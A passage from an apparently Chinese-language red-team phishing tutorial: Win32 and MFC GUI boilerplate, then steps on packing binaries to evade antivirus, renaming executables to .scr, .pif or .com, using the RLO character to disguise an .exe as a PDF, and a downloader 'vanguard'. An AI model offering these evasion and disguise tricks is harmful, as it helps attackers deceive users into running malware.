LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    switch (uMsg) {
        case WM_DESTROY:
            PostQuitMessage(0);
            return 0;
    }
    return DefWindowProc(hwnd, uMsg, wParam, lParam);
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PSTR pCmdLine, int nCmdShow) {
    const char CLASS_NAME[]  = "Sample Window Class";

    // 定义窗口类
    WNDCLASS wc = { };
    wc.lpfnWndProc   = WindowProc; 
    wc.hInstance     = hInstance;
    wc.lpszClassName = CLASS_NAME;
    wc.hIcon         = LoadIcon(hInstance, IDI_APPLICATION);

    // 注册窗口类
    RegisterClass(&wc);

    // 创建窗口
    HWND hwnd = CreateWindowEx(
        0,                              
        CLASS_NAME,                    
        "Hello, Win32",                
        WS_OVERLAPPEDWINDOW,           

        CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT,
        NULL, NULL, hInstance, NULL
    );

    if (hwnd == NULL) {
        return 0;
    }

    ShowWindow(hwnd, nCmdShow);

    // 处理消息
    MSG msg = { };
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

```

### 步骤 3: 修改消息循环和窗口创建

在 `WinMain()` 函数中，我们通常会设置窗口类、创建窗口并启动消息循环。以下是一个简化的流程：

* **注册窗口类**：使用 `WNDCLASS` 结构和 `RegisterClass` 函数注册一个新的窗口类。
* **创建窗口**：通过 `CreateWindowEx` 函数创建一个窗口，并将其显示出来。
* **消息循环**：通过 `GetMessage`、`TranslateMessage` 和 `DispatchMessage` 函数在消息循环中处理窗口消息。

### 步骤 4: 添加窗口过程（Window Procedure）

* **窗口过程**是一个函数，接收来自操作系统的消息并进行处理。在 `WindowProc` 函数中，您可以处理不同类型的消息，如键盘输入、鼠标点击、窗口大小调整等。
* `WindowProc` 函数的签名通常是 `LRESULT CALLBACK WindowProc(HWND, UINT, WPARAM, LPARAM)`。

### 步骤 5: 配置项目属性

1. **在项目属性中配置入口点**：

* 在 **解决方案资源管理器** 中，右键单击项目并选择 **属性**。
* 进入 **配置属性** -> **链接器** -> **系统**，将 **子系统** 设置为 **Windows (/SUBSYSTEM:WINDOWS)**。
* 这样，程序会被视为 Windows 窗体程序，而不是控制台应用程序。
* 设置入口点为 `WinMainCRTStartup`（Visual Studio 会自动设置该入口点）。

2. **禁用控制台输出**：

* 在 **项目属性** 中，进入 **C/C++** -> **常规**，将 **配置类型** 设置为 **应用程序 (.exe)**，以确保不会创建控制台窗口。

### 步骤 6: 调整或重写代码

* 需要根据新的窗体应用程序架构调整您的程序。例如，您可以通过处理消息来添加按钮、文本框等控件，或实现其他的窗体交互逻辑。
* 控制台程序中的输入输出（如 `std::cout`、`std::cin`）需要转为窗体应用程序中的交互方式，例如通过按钮、文本框来进行交互。

### 步骤 7: 其他注意事项

1. **消息循环**：窗体应用程序需要有一个消息循环来响应用户输入和系统事件，控制台应用程序通常没有这一点。
2. **窗体窗口管理**：需要了解如何使用 Windows API 来管理窗口的创建、销毁和更新。你可能会使用 `CreateWindow`, `ShowWindow`, `UpdateWindow` 等函数来操作窗口。
3. **多线程**：Win32 窗体应用程序可能会使用多线程来处理长时间运行的任务，而控制台应用程序通常是单线程的。
4. **UI 组件**：如果你之前的控制台程序是基于文本输入输出的，你可能需要用按钮、菜单、文本框等来代替控制台上的输入输出。

## 4.用不同版本的VS或者编译器

个人感觉，VS2010效果最佳

​

## 5.VS2010的MFC壳

### 什么是 MFC 壳

MFC（Microsoft Foundation Classes）是 Microsoft 提供的一个库，用于简化 Windows 应用程序的开发，特别是图形用户界面（GUI）应用程序。MFC 提供了对 Windows API 的封装，使得开发人员能够以面向对象的方式处理窗口、消息循环、控件等问题。

**MFC 壳**是指使用 MFC 创建的应用程序框架或“外壳”，它提供了基本的窗口管理、消息处理、应用程序生命周期等功能。MFC 壳通常包括：

* **主窗口**：提供基本的窗口界面。
* **消息循环**：负责接收并处理来自操作系统的消息（如鼠标、键盘事件等）。
* **菜单、工具栏**：为应用程序提供常用的界面元素。
* **对话框和控件**：为用户提供输入和交互的界面组件。

使用 MFC 壳创建应用程序时，开发人员不需要从零开始编写 Windows API 的低级代码，可以直接使用 MFC 提供的高层接口，快速开发功能齐全的 Windows 应用程序。

### 如何使用 VS2010 给项目加上 MFC

如果您已经有一个现有的项目，想要给它加上 MFC，您可以按照以下步骤操作：

#### 步骤 1: 创建 MFC 应用程序项目

1. **打开 Visual Studio 2010**。
2. 在 **开始页面** 或 **文件** 菜单中选择 **新建** -> **项目**。
3. 在 **新建项目** 对话框中，选择 **Visual C++** -> **MFC**。
4. 选择 **MFC 应用程序** 模板，输入项目名称，然后点击 **确定**。

Visual Studio 会为您创建一个包含 MFC 组件的基本框架应用程序。

#### 步骤 2: 将 MFC 集成到现有项目中

如果您有一个已有的控制台项目或其他类型的 Windows 项目，想要将 MFC 加入进来，您需要执行以下操作：

1. **打开现有项目**：

* 在 **Visual Studio 2010** 中，打开现有的项目。

2. **将 MFC 库添加到项目中**：

* 右键单击 **项目**，选择 **属性**。
* 在 **配置属性** -> **常规** -> **使用 MFC**，选择 **在共享 DLL 中使用 MFC**（推荐这种方式，能减少应用程序的体积），或者选择 **静态链接 MFC**（如果不希望依赖 DLL）。
* 确保 **C/C++** -> **代码生成** 中的 **运行库** 设置为适当的选项，如 `Multithreaded Debug DLL` 或 `Multithreaded DLL`，以确保 MFC 相关的 DLL 正常工作。

3. **转换项目类型**：

* 在 **配置属性** -> **项目类型** 中，确保 **应用程序类型** 设置为 **Windows 应用程序**，而不是控制台应用程序。

4. **添加 MFC 相关的代码和文件**：

* 通过修改 **main.cpp** 或其他相关文件，将现有的控制台逻辑转换为 MFC 逻辑。例如，您需要将控制台 `main()` 函数转换为 MFC 的 `WinMain()`，并在其中初始化 MFC 框架。
* 在 **stdafx.h** 中包含 `afxwin.h`，这是 MFC 的主要头文件。

5. **设计窗口和控件**：

* 如果您需要 GUI 界面，可以使用 MFC 提供的窗口、对话框、按钮、文本框等控件。您可以通过 **资源视图** 创建对话框和控件，并在代码中使用 MFC 类进行管理。

#### 步骤 3: 使用 MFC 创建主窗口和消息处理

1. **创建主窗口类**：

* MFC 提供了一个名为 `CFrameWnd` 或 `CDialog` 的类，可以用来创建主窗口。根据需要创建一个继承自这些类的类。

2. **处理窗口消息**：

* MFC 提供了一种机制，可以通过消息映射机制来处理 Windows 消息（如按钮点击、窗口关闭等）。
* 使用 `ON_COMMAND`、`ON_WM_CLOSE` 等宏将消息映射到相应的处理函数。

#### 示例：简单的 MFC 应用程序结构

1. **stdafx.h**： 这是包含常用头文件的地方。MFC 程序通常会包含 `afxwin.h`。

```
// stdafx.h
#pragma once
#include <afxwin.h>   // MFC 应用程序需要包含的文件
```

1. **主窗口类**： 继承自 `CFrameWnd` 创建一个简单的窗口类。

```
// MainFrame.h
class CMainFrame : public CFrameWnd {
public:
    CMainFrame() {
        Create(NULL, _T("MFC 应用程序示例"));
    }
};
```

1. **应用程序类**： 继承自 `CWinApp`，这是 MFC 应用程序的入口。

```
// MyApp.h
class CMyApp : public CWinApp {
public:
    virtual BOOL InitInstance();
};

// MyApp.cpp
BOOL CMyApp::InitInstance() {
    CMainFrame* pFrame = new CMainFrame();
    m_pMainWnd = pFrame;
    pFrame->ShowWindow(SW_SHOW);
    pFrame->UpdateWindow();
    return TRUE;
}

// main.cpp
CMyApp theApp;
```

#### 步骤 4: 调试和构建

1. **编译项目**：

* 完成 MFC 集成后，可以按 `F7` 或点击 **生成** 来编译项目。

2. **运行应用程序**：

* 运行项目时，MFC 会自动创建主窗口并开始消息循环。

### 注意事项

1. **资源管理**：MFC 使用了大量的资源，如窗口类、菜单、图标、对话框等，因此需要适当地管理这些资源。
2. **线程管理**：如果您的应用程序需要多线程，MFC 提供了线程和同步机制。
3. **消息映射**：MFC 通过消息映射机制处理操作系统发来的消息，确保窗口控件的正常交互。
4. **库依赖**：如果选择 **静态链接 MFC**，会增加可执行文件的大小，因此使用共享 DLL 可能是更好的选择。

# 第六步，保护本体

加壳什么的，网上文章一大堆我就不说了，要注意的是越新的壳越好，用远古壳会起到反作用，不同壳会针对不同AV有不同效果，不同程序使用不同壳也会有不同效果，很玄，自己试试

​

​

​

​

​

​

警告：加壳技术虽然可以有效地绕过防病毒软件的检测，但其滥用可能导致恶意软件的传播。请确保在合法授权的环境中使用加壳技术，避免将其用于不当用途。未经授权的加壳和代码修改行为可能违反法律法规，开发者对任何违法行为不承担责任。

​

# 第七步，改后缀

**警告**：本部分讨论的防护措施旨在帮助提高系统安全性，并避免Shellcode和其他恶意软件的滥用。请确保您的防护技术和测试在合法授权的环境中进行。如果您在进行渗透测试或安全研究时使用这些技术，请确保您已获得相应的授权，并且您的活动不会侵犯他人的合法权益或违反当地的法律法规。未经授权的入侵行为是非法的，开发者对任何违法行为不承担责任。

​

### 1. `.com`

* **说明**：`.com` 是早期 DOS 操作系统中的可执行文件格式，它与 `.exe` 文件类似，但通常大小有限制。将 `.exe` 文件的后缀改为 `.com`，大多数情况下，Windows 仍然能够识别并执行该文件。

**使用示例**：将 `program.exe` 重命名为 `program.com` 后，程序依然能够执行。

### 2. `.bat`**（批处理文件）**

* **说明**：`.bat` 文件是 Windows 批处理文件的扩展名。批处理文件本身是文本文件，但您可以通过将 `.exe` 文件嵌入到 `.bat` 文件中间接执行可执行程序。这样文件仍然可以执行，但这涉及到使用 `start` 或类似的命令调用 `.exe` 文件。

**使用示例**：

```
@echo off
start program.exe
```

### 3. `.cmd`**（命令脚本文件）**

* **说明**：`.cmd` 文件与 `.bat` 文件类似，是 Windows 中的脚本文件。它们也可以用来间接执行 `.exe` 文件，但 `.cmd` 文件本身是脚本文件，通常会在命令提示符下执行。通过 `start` 命令，您可以在 `.cmd` 文件中执行任何 `.exe` 文件。

**使用示例**：

```
@echo off
start program.exe
```

### 4. `.scr`**（屏幕保护程序）**

* **说明**：`.scr` 是 Windows 中的屏幕保护程序文件扩展名。实际上，屏幕保护程序本质上就是一个 `.exe` 文件，因此可以将 `.exe` 文件的扩展名修改为 `.scr` 来执行该程序。通常，Windows 会将 `.scr` 文件当作可执行文件来处理。

**使用示例**：将 `program.exe` 改为 `program.scr`，然后执行。

### 5. `.pif`**（程序信息文件）**

* **说明**：`.pif` 文件是 Windows 早期用于存储程序信息的文件格式，尤其是在 Windows 3.x 和 Windows 95 中。它可以用于指定运行程序的方式（例如，窗口大小、是否需要 MS-DOS 环境）。尽管不常见，但您可以将 `.exe` 文件重命名为 `.pif` 文件，并且它仍然能够执行。

**使用示例**：将 `program.exe` 改为 `program.pif`，然后执行。

### 6. `特殊字符RLO`**（反转）**



一般都是改名成fdp.exe

会显示exe.pdf

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

# 第八步，先锋

写一个先锋，下载执行，或者有启动功能什么的，不细说，我之前的文章有些有提及，根据情况不同而定

# 第九步，防范与检测

详见文章[蓝队—反钓鱼的策略提供](https://xz.aliyun.com/news/16295)

# 本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

​
